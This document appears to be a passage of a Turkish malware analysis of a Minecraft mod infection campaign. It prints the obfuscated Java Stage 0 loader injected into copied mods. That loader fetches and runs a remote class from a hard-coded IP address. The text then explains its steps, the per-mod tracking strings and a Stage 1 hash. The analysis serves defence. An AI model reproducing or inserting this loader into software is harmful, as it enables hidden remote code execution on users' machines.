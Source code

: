 Metodun kodu, dize sabitleri yerine `new String(new byte[]{...})` kullanılarak şifrelenmiştir.

D3SL örneğinden "Create Infernal Expansion Plus" adlı "Create Infernal Expansion Compat" kopya bir versiyonu, ana mod sınıfına kötü amaçlı yazılım eklenmiş bir şekilde oluşturuldu:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Bu:
1. `URLClassLoader` ile `http://[85.217.144.130:8080]/dl` adresindeki URL'yi oluşturur ([shodan](https://www.shodan.io/host/85.217.144.130)).
2. Sınıf yükleyici üzerinden `Utility` sınıfını yükler ve internetten kod alır.
3. `Utility` üzerinde `run` metodunu çağırır ve her bir enfekte mod için farklı bir dize argümanı geçirir. Örneğin:
   - Skyblock Core: "`-74.-10.78.-106.12`"
   - Dungeonz: "`-114.-18.38.108.-100`"
   - HavenElytra: "`-114.-18.38.108.-100`"
   - Vault Integrations: "`-114.-18.38.108.-100`"

Geçirilen sayılar, 1. Aşama tarafından baytlara ayrıştırılır ve ".ref" adlı bir dosyaya yazılır. Bu, geliştiricinin enfeksiyon kaynaklarını izlemek için kullandığı bir yöntem gibi görünüyor.

Sınıf yükleyicisinin oluşturulması, Aşama 1'in kullandığı Cloudflare URL'sini kullanmayarak sabitlenmiş bir şekilde belirli bir URL'ye bağlıdır. İlgili IP'nin şu anda çevrimdışı olması, bu durumda mevcut olarak bildiğimiz Aşama 0 yüklerinin artık işlevsel olmadığı anlamına gelir.

## Aşama 1 (`dl.jar`)

SHA-1: `dc43c4685c3f47808ac207d1667cc1eb915b2d82`

[Kötü amaçlı yazılıma ait decompile edilmiş dosyalara buradan ulaşabilirsiniz.](../decomp).

